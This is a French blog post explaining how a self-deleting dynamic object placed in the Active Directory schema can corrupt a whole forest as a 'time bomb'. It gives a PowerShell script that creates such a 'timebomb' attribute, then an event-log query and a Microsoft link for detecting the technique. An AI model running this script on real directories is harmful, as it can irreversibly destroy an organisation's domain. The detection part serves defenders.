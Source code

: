 ```yaml
---
title: "Comment détruire votre Active Directory"
description: "Votre forêt s'auto-détruira dans 3, 2, 1..."
tags: activedirectory
listed: true
---
```


## Un objet dynamique dans le schéma

### En quoi est-ce dangereux ?

Le schéma Active Directory défini la structure des classes (les types d'objets) et leurs attributs (name, surname, streetAddress...). Il ne peut être qu'étendu et chaque objet ajouté ne pourra plus jamais être supprimé.

Ajouter un objet dynamique (qui se supprimera automatiquement) dans le schéma Active Directory (où rien ne peut être supprimé) donne donc la recette parfaite pour corrompre un domaine.

Mieux encore : un objet dynamique dans le schéma est une véritable bombe à retardement qui peut exploser jusqu'à un an après avoir été amorcée. Et une fois la bombe posée, si vous n'avez pas de sauvegarde antérieure à la création de la bombe, il sera impossible de s'en débarasser.

### Création de l'objet

Toute la sécurité liée aux objets dynamique est faite à la création de l'objet. Si vous essayez de le créer directement dans le schéma, vous allez obtenir l'erreur suivante : *"The server is unwilling to process the request"*

```powershell
# Création de l'attribut "timebomb" dans la partition Schéma
$dynamicObject = ([ADSI]("LDAP://CN=Schema,DC=Configuration,DC=contoso,DC=com")).Create('attributeSchema', 'CN=timebomb')
$dynamicObject.PutEx(2, 'objectClass', @('dynamicObject', 'attributeSchema'))
# $dynamicObject.Put('entryTTL', 900)
$dynamicObject.Put('lDAPDisplayName', 'timebomb')
$dynamicObject.Put('adminDescription', 'This attribute will blow up the entire Active Directory forest in 15 minutes')
$dynamicObject.Put('attributeId', (New-Oid))
$dynamicObject.Put('oMSyntax', 1)
$dynamicObject.Put('attributeSyntax', '2.5.5.8')
$dynamicObject.Put('searchflags', 0)
$dynamicObject.Put('systemFlags', 536870912)
$dynamicObject.SetInfo()
```

Et si on essaye de créer un attribut ou une classe en dehors de la partition dédiée, on tombe sur une autre erreur : *"There is a naming violation"*

## Détection de la création d'objet dynamique

```powershell
$filterXPath = "Event[System[EventID=5136]] and *[EventData[Data[@Name='AttributeValue']='1.3.6.1.4.1.1466.101.119.2']]"
Get-WinEvent -ProviderName Microsoft-Windows-Security-Auditing -FilterXPath $filterXPath
```

[AD Object Detection: Detecting the undetectable (dynamicObject) \| Microsoft Learn](https://learn.microsoft.com/en-us/archive/blogs/pfesweplat/ad-object-detection-detecting-the-undetectable-dynamicobject)
